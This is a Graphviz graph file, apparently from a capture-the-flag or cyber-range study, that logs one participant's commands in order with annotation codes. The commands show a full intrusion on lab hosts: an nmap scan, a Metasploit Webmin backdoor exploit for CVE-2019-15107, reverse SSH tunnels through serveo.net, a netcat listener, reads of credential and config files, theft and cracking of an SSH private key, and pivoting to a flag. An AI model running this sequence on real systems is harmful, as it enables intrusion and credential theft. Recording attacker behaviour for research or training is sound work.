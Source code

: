 // creating graph for user: 77
digraph {
	node [shape=box]
	0 [label="ip a U"]
	1 [label="ping .. U"]
	2 [label="ping 8.8.8.8 U"]
	3 [label="namp 172.18.1.5 -A U"]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	7 [label="curl 172.18.1.5:10000 U"]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	13 [label="vim U"]
	14 [label="ll U"]
	15 [label="nmap -p 10000 -A 172.18.1.5 V0 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	22 [label="show options V5 "]
	23 [label="back U"]
	24 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	25 [label="set RHOSTS 172.18.1.5 V6 "]
	26 [label="run V8 "]
	27 [label="set LPORT 6666 A6 "]
	28 [label="run V8 "]
	29 [label="set LHOST 0.0.0.0 V6 "]
	30 [label="run V8 "]
	31 [label="sessions -i U"]
	32 [label="sessions U"]
	33 [label="ip a U"]
	34 [label="show options V5 "]
	35 [label="set LHOST 192.168.130.188 V6 "]
	36 [label="set SRVHOST 192.168.130.188 A6 "]
	37 [label="run V8 "]
	38 [label="msfconsole V2 "]
	39 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	40 [label="show options V5 "]
	41 [label="set RHOSTS 172.18.1.5 V6 "]
	42 [label="run V8 "]
	43 [label="ip r U"]
	44 [label="set LHOST 10.1.135.83 V6 "]
	45 [label="run V8 "]
	46 [label="nc -l -p 7777 U"]
	47 [label="ll U"]
	48 [label="ls A10 "]
	49 [label="cd/ U"]
	50 [label="cd / U"]
	51 [label="ls A10 "]
	52 [label="cd /root U"]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	55 [label="ll U"]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	60 [label="history U"]
	61 [label="ls A10 "]
	62 [label="ip a U"]
	63 [label="ps aux U"]
	64 [label="ps aux U"]
	65 [label="w U"]
	66 [label="ps aux U"]
	67 [label="ps aux  A9 A11 A12 A17 "]
	68 [label="ping 10.1.135.83 U"]
	69 [label="s U"]
	70 [label="s U"]
	71 [label="s U"]
	72 [label="s U"]
	73 [label="s U"]
	74 [label="s U"]
	75 [label="s U"]
	76 [label="s U"]
	77 [label="sss U"]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	81 [label="ip a U"]
	82 [label="nmap A0 A1 "]
	83 [label="cd /root U"]
	84 [label="ls A10 "]
	85 [label="apt udpate U"]
	86 [label="apt update U"]
	87 [label="apt install nmap A0 A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	91 [label="cd / U"]
	92 [label="cd /etc U"]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	95 [label="crontab -l U"]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	97 [label="cd /home U"]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	100 [label="cd eve U"]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	106 [label="cd debian U"]
	107 [label="cd ../debian U"]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	111 [label="cd .ansible U"]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	114 [label="cd tmp U"]
	115 [label="ls -hlA A10 "]
	116 [label="cd .. U"]
	117 [label="ls -hlA A10 "]
	118 [label="cd .. U"]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	123 [label="cd .. U"]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	126 [label="cd eve U"]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A0 A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history V11 "]
	132 [label="su eve U"]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="exit U"]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ A16 "]
	139 [label="cd U"]
	140 [label="ls -hlA .ssh A10 A16 "]
	141 [label="cd /home/eve U"]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history V11 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	147 [label="ll U"]
	148 [label="cd .. U"]
	149 [label="ll U"]
	150 [label="ll * U"]
	151 [label="cd .. U"]
	152 [label="ll U"]
	153 [label="ll root U"]
	154 [label="cat root/.bash_history V11 "]
	155 [label="ll U"]
	156 [label="cd /var/ U"]
	157 [label="ll U"]
	158 [label="cd webmin U"]
	159 [label="ll U"]
	160 [label="cd .. U"]
	161 [label="cd .. U"]
	162 [label="ll U"]
	163 [label="ll media U"]
	164 [label="ll opt U"]
	165 [label="ll srv U"]
	166 [label="cd var U"]
	167 [label="ll U"]
	168 [label="cd log U"]
	169 [label="ll U"]
	170 [label="cat syslog A1 A9 A11 A12 A17 "]
	171 [label="ll U"]
	172 [label="zcat syslog.1 A1 A9 A11 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A11 A12 A17 "]
	174 [label="cd /etc/ansible U"]
	175 [label="cd /etc U"]
	176 [label="ll U"]
	177 [label="ll ssh A16 "]
	178 [label="ll U"]
	179 [label="cat sudoers A1 A9 A11 A12 A17 "]
	180 [label="cd U"]
	181 [label="ll U"]
	182 [label="ll U"]
	183 [label="alias ll='ls -hlA' A10 "]
	184 [label="ll U"]
	185 [label="ll U"]
	186 [label="cd U"]
	187 [label="ll U"]
	188 [label="cd .ssh A16 "]
	189 [label="ll U"]
	190 [label="cat id_rsa M12 "]
	191 [label="ll U"]
	192 [label="alias ll='ls -hlA' A10 "]
	193 [label="ll U"]
	194 [label="cd Desktop/ U"]
	195 [label="ll U"]
	196 [label="vim id_rsa U"]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 A16 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py V8 "]
	200 [label="chmod +x ssh2john.py A14 A15 A16 "]
	201 [label="./ssh2john.py id_rsa A14 A16 "]
	202 [label="./ssh2john.py id_rsa > x A14 A16 "]
	203 [label="ll U"]
	204 [label="ll /usr/share/wordlists/rockyou.txt U"]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	206 [label="ll U"]
	207 [label="ll U"]
	208 [label="cd .. U"]
	209 [label="cat /home/eve/.bash_history V11 "]
	210 [label="ssh eve@10.1.17.4 V16 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	213 [label="cd /tmp U"]
	214 [label="ll U"]
	215 [label="ll U"]
	216 [label="cd U"]
	217 [label="history U"]
	218 [label="cat /home/eve/.bash_history V11 "]
	219 [label="ssh eve@10.1.17.4 V16 "]
	220 [label="alias ll='ls -hlA' A10 "]
	221 [label="ll U"]
	222 [label="cd top-secret U"]
	223 [label="ll U"]
	224 [label="cat flag.txt M17 "]
	225 [label="ll U"]
	226 [label="cd .. U"]
	227 [label="ll U"]
	228 [label="uname -a U"]
	229 [label="sudo -l U"]
	230 [label="ll U"]
	231 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	232 [label="w U"]
	233 [label="ll U"]
	234 [label="ll top-secret/ U"]
	235 [label="cat top-secret/flag.txt V17 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	239 [label="ll U"]
	240 [label="cd / U"]
	241 [label="ll U"]
	242 [label="w U"]
	243 [label="ll opt U"]
	244 [label="ll srv/ U"]
	245 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	246 [label="cat /etc/cron* A1 A9 A11 A12 A17 "]
	247 [label="ll /tmp/cron* U"]
	248 [label="ll /etc/cron* U"]
	249 [label="ll U"]
	250 [label="ip a U"]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	252 [label="ll U"]
	253 [label="uname -a U"]
	254 [label="cat /etc/api/sources.list A1 A9 A11 A12 A17 "]
	255 [label="cat /etc/apt/sources.list A1 A9 A11 A12 A17 "]
	256 [label="ll U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	rankdir=LR
}
